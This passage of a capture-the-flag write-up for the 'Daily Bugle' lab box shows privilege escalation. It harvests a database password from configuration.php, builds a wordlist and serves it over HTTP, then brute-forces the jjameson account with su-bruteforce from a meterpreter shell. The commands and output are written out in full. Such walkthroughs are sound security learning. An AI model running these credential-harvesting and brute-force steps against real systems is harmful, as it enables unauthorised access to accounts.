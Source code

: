The enumeration yielded a few pieces of information that seemed useful: a username `jjameson` and a set of root credentials for mysql DB from the `/var/www/html/configuration.php` file.

```bash
[+] Users with console
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

```bash
[+] Searching passwords in config PHP files
     public $password = 'nv5uz9r3ZEDzVjNu';
```

I added this set of credentials to my dailybugle wordlist and decided to investigate how I could move horizontally to the `jjameson` user.

It's worth noting, in my initial pass I had neglected to document the above password which lead to a significant rabbithole as I continuously enumerated the host looking for a point of escalation.

```bash
root@kali:~/ctf# echo 'nv5uz9r3ZEDzVjNu' >> ./wordlists/dailybugle.txt
```

### Horizontal local privilege escalation

Now that I had identified the `jjameson` user as a potential next target I decided to attempt to escalate locally using a small, but immensely useful, bash script from Carlos Polop that bruteforces `su`, [su-bruteforce](https://github.com/carlospolop/su-bruteforce). I generated a new wordlist by combining the dailybugle wordlist and rockyou and then transferred this over to the host over a local http webserver. While not shown, `suBF.sh` was transfered to the host over the meterpreter session.

```bash
root@kali:~/ctf# curl -sO https://raw.githubusercontent.com/carlospolop/su-bruteforce/master/suBF.sh
root@kali:~/ctf# cd wordlists/
root@kali:~/ctf/wordlists# cat dailybugle.txt /usr/share/wordlists/rockyou.txt > combined-wl.txt
root@kali:~/ctf/wordlists# head combined-wl.txt -n 10
spiderman123
nv5uz9r3ZEDzVjNu
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
root@kali:~/ctf/wordlists# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.162.223 - - [27/Nov/2020 22:36:38] "GET /combined-wl.txt HTTP/1.1" 200 -
```

```bash
meterpreter > shell
Process 21812 created.
Channel 7 created.
curl -sO 'http://10.10.182.144/combined-wl.txt'
./suBF.sh -u jjameson -w combined-wl.txt -t 0.7 -s 0.007
  [+] Bruteforcing jjameson...
  You can login as jjameson using password: nv5uz9r3ZEDzVjNu
```
